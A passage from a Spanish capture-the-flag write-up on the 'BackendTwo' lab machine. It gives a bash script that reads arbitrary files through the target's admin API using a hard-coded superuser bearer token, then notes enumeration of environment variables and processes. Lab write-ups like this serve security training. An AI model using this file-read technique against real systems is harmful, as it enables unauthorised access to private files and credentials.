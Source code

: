 * Nos montamos un script simple en bash para que este proceso sea mas cómodo.


```bash

#!/bin/bash

function ctrl_c(){
	echo -e "\e[31;1m\n 	*Saliendo\n\n\e[0m"
	exit 2
}

trap ctrl_c INT


filename=$(echo -n "$1" | base64)

curl -s X 'GET' "http://10.10.11.162/api/v1/admin/file/$filename"  -H 'accept: application/json' -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ0eXBlIjoiYWNjZXNzX3Rva2VuIiwiZXhwIjoxNzMwNjk5NTIwLCJpYXQiOjE3MzAwMDgzMjAsInN1YiI6IjEyIiwiaXNfc3VwZXJ1c2VyIjp0cnVlLCJndWlkIjoiYzA2N2JhMTItMzNjNi00M2E3LWI4ODAtNTIwM2VlOTY2NjkwIn0.hGG9mHZ-wo8IxVPhbOog-bcYZuqsh6VjvM5tQNQoYWY' | jq -r '.file'

```
<font color="red"><center><a href="uploads/exploit_Maquina-Backend-Two.sh" download>>Descargar<</a></center></font>



* Exportamos las variables de entorno en la maquina.

<img src="imgs/BackendTwo/BackendTwo31.png">

* Listamos los procesos que se están ejecutando y vemos algo interesante, que llama a python3.

<img src="imgs/BackendTwo/BackendTwo32.png">

* Vemos que ejecuta un archivo en app/main lo que me hace pensar que puede ser un archivo en python.

<img src="imgs/BackendTwo/BackendTwo33.png">
